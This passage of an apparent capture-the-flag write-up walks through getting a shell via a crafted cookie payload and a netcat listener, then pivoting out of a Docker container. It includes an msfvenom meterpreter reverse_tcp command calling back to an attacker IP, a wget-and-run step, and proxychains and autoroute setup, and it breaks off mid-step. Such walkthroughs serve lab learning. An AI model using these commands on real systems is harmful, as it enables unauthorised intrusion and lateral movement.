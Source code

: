 7. Run the python script and it should generate a payload for you, replace the existing `search_cookie` with the output of this python script and start a netcat listner at port `1234`. After that send a new search request with any query while having the new payload inside the `search_cookie` and you should pop the inital shell !

![Image](https://i.imgur.com/8IQdPGm.png)

![Image](https://i.imgur.com/tzFpJNd.png)

## Post-Exploitation

1. You should notice you are root straight away... something smells fishy about this.
2. Upon further investigation we find that we are actually inside of a docker container, you can check by doing `ls -la /` and you should find `.dockerenv` file there
3. Also doing `ip addr` should show us that our current ip address is at `172.17.0.2`
   ![Image](https://i.imgur.com/j547CHs.png)
4. We started searching the file system for any clues with no luck, until we looked inside `/root/.bash_history`
5. We can see that the owner of this box tried to `call home` by sshing into a user called `ramsey` at `172.16.0.1`
6. Sadly this current container doesn't have SSH client installed so I resoted to using metasploit for pivoting as I find it easier to manage.
7. In our Kali/Parrot machine we can create the payload by typing the following command.

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.14.176 LPORT=9999 -f elf > payload.elf
```

8. After that let's start metasploit using `msfconsole` and starting a `multi/handler`

   ![Image](https://i.imgur.com/T6jOpT0.png)

9. Then we can use `wget` to get that payload into the remote server, set it as executable and run it.

![Image](https://i.imgur.com/hftwexL.png)

10. The reason we used a metasploit shell there was to pivot into the internal network. So let's start a socks4a server to use with proxychains

![Image](https://i.imgur.com/HwxwRnU.png)

11. Now we can interact with the open session and setup our autoroute like this.

    ![Image](https://i.imgur.com/aZJ0ZYX.png)

12. Now you need to configuration proxychains to work with metasploit, edit the file `/etc/proxychains.conf` and either make sure this line is at the bottom or add it
    ```
    socks4 127.0.0.1 1080
    ```
13. Now we have the ability to communicate with that internal server using proxychains and metasploit, Try doing the following:
